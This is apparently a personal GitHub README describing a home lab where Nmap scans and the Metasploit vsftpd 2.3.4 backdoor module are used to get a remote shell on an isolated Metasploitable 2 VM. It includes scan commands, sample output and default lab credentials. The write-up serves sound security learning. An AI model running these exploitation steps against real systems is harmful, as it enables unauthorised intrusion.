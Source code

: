 # cybersecurity-lab-nmap-metasploit
Hands-on cybersecurity lab using Kali Linux and Metasploitable to scan and exploit vulnerabilities with Nmap and Metasploit.

# 🔐 Cybersecurity Home Lab: Nmap Scan & Exploitation

## 🧰 Tools Used
- VirtualBox
- Kali Linux (Attacker VM)
- Metasploitable 2 (Vulnerable Target VM)
- Nmap (Port scanning & service enumeration)
- Metasploit Framework (Exploitation)

---

## 🛠️ Lab Setup

This lab was built using VirtualBox to simulate a safe, isolated network environment for practicing offensive security techniques.

### 🔧 Network Configuration
Both Kali Linux and Metasploitable 2 are configured to use a **Host-Only Adapter** to ensure full isolation from the internet.

### 🔐 Metasploitable Login

```bash
Username: msfadmin
Password: msfadmin
```


After identifying the IP of the Metasploitable VM using ifconfig, I performed a vulnerability scan using Nmap:

```bash
nmap -sS -sV -O 192.168.56.101
```

✅ Flag Breakdown:
	•	-sS : TCP SYN scan (stealthy and fast)
	•	-sV : Detects service versions
	•	-O  : Tries to determine the operating system

🧾 Sample Output:
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8
...

💥 Step 2: Exploitation with Metasploit

Identified a vulnerable FTP service running vsftpd 2.3.4. Used Metasploit to exploit it and gain shell access:

``` bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
exploit
```

✅ Result: Opened a remote shell session with the target.

🧠 What I Learned
	•	How to configure and isolate VMs in a virtual network
	•	How to scan and enumerate services using Nmap
	•	How to identify vulnerabilities based on service versions
	•	Basic exploitation using the Metasploit Framework
	•	The importance of safe, offline testing environments

🚀 Future Improvements
	•	Add Wireshark for packet sniffing and traffic analysis
	•	Expand lab with Security Onion or Splunk for detection & logging
	•	Build custom scripts to automate scanning/reporting

🔗 Connect with Me

👨‍💻 Robert Tolbert
🎯 Passionate about cybersecurity, software engineering, and aviation!

